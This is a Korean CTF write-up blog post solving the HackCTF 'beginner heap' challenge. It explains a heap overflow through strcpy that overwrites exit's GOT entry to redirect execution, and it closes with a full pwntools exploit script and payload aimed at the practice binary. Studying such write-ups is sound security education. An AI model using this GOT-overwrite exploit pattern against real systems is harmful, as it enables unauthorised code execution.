 ```yaml
---
layout: post
title:  "HackCTF beginner heap write-up"
date:   2020-02-25 19:45:55
image:  hackctf_beginner_heap.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled.png)

PIE가 걸려있지 않기 때문에 got overwrite가 가능할 것이다
<br><br><br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled%201.png)

바이너리를 실행시키면 아무것도 뜨지 않고 바로 입력을 받는다. 총 2번 입력을 받고 바로 종료가 된다. 문제만 봐서는 어떤 동작을 하는 프로그램인 파악이 안가기 때문에 아이다로 코드를 한번 봐보자
<br><br><br>
**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled%202.png)

malloc을 총 4번 하고 fgets를 통해 입력한 데이터를 strcpy 함수를 이용하여 복사를 한다.

위 과정을 디버깅하여 취약점을 찾아내야 한다. 만약 취약점을 찾았다면, got를 덮을수 있는지봐야하고, 이게 가능하다면 제공된 함수 중 **sub_400826** 로 이동시키게 해야한다.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled%203.png)

**sub_400826** 는 다음과 같다. 그냥 해당 함수를 호출하면 될것같지만 해보지않고서는 잘 모르니 일단 해당 함수를 호출할 수 있게끔 조져보자.
<br><br><br><br><br>
### 2. 접근방법

---

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled%204.png)

메모리 구조는 다음처럼 생겼다. 처음 v3에 0x10 크기 만큼 할당 받고, v3이 가리키는 힙영역에 1을 넣는다. 그다음 v3+1가 가리키는 곳에 0x8 사이즈 만큼 한번더 동적할당을 한다. 근데 자세히 보면 해당 영역은 v3에서 0x20 만큼 떨어져 있다.
<br><br>
그리고 fgets에서 큰 사이즈만큼 입력이 가능하다. 이 부분에서 취약점이 발생한다. 입력한 데이터를 v3+1이 가리키는 곳에 복사하는데 이는 v4와 거리가 얼마 안떨어져 있다.
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled%205.png)

만약 0x30 크기 만큼 입력을 하고 strcpy를 실행한다면 v4+1위치에 들어있는 값을 수정가능 할 것이다. 이 부분을 Exit함수의 got로 변경해보자.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled%206.png)

(중간에 롸업쓰다가 멈춰서 주소가 달라졌다. 참고하시길)

0x602058 주소에 Exit_got가 잘 들어가 있다.  fgets에 sub머시기 함수의 주소를 입력하면 strcpy를 통하여 got에 들어있는 값을 변경 가능하다
<br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Beginner_Heap/Untitled%207.png)

정상적으로 got가 sub_400826 주소로 변경되었다. 이제 메인에서 exit(0) 실행되면 sub_400826 함수가 실행될 것이다.
<br><br><br><br><br>
### 3. 풀이

---

최종 익스 코드는 다음과 같다
```python
from pwn import *
context.log_level = "debug"
#p = remote("ctf.j0n9hyun.xyz",3016)
p=process("./beginner_heap.bin",aslr=False)
gdb.attach(p,""" b* 0x4009ab """)
payload = "A"*40+p64(0x0000000000601068) # exit got

p.sendline(payload)
p.sendline(p64(0x400826))


p.interactive()
```

<br><br><br>
### 4. 몰랐던 개념

---

힙 관련 지식은 딱히 필요없었다.